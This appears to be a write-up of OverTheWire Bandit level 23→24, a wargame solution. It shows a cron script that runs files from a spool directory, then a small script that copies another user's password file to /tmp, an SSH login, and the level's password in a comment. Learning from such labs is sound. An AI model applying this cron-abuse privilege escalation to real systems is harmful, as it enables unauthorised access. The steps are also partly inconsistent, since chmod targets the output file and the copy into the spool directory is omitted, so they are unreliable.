 Let's delve into the next challenge level:

![untitled](ScreenShots/Level%2023%20->%2024.jpg)

Similar to our previous encounter, the approach might necessitate some adjustment.

---
Now, let's initiate our examination by navigating to the designated directory:
```bash
cd /etc/cron.d/
ls
```
Just as before, our focal point remains on `cronjob_bandit24`. Let's scrutinize its contents:
```bash
cat cronjob_bandit24
```
This command yields the following output:
```bash
@reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
```
Proceeding with our methodical approach, let's inspect the `cronjob_bandit24.sh` script:
```sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
The script indicates that any file within `/var/spool/$myname/foo` will be executed and subsequently removed.  
Our objective now shifts to crafting a script to retrieve the password from `/etc/bandit_pass/`.  
Our next step involves creating a `.sh` file with the following content:
```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password.txt
```
Ensure the script is executable by granting it the necessary permissions. Execute the following commands:
```bash
touch /tmp/bandit23/password.txt
chmod 777 /tmp/bandit23/password.txt
```
Afterward, patiently await approximately a minute for the files in the directory to execute cyclically.  
Once the wait is over, unveil the password for the subsequent level:
```bash
cat /tmp/bandit23/password.txt
```
With the password in hand, we are ready to advance.

To progress, we employ SSH:
```bash
Command: `ssh -p 2220 bandit24@bandit.labs.overthewire.org`
#Password: Password stored previously
```
<!-- Password: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar` -->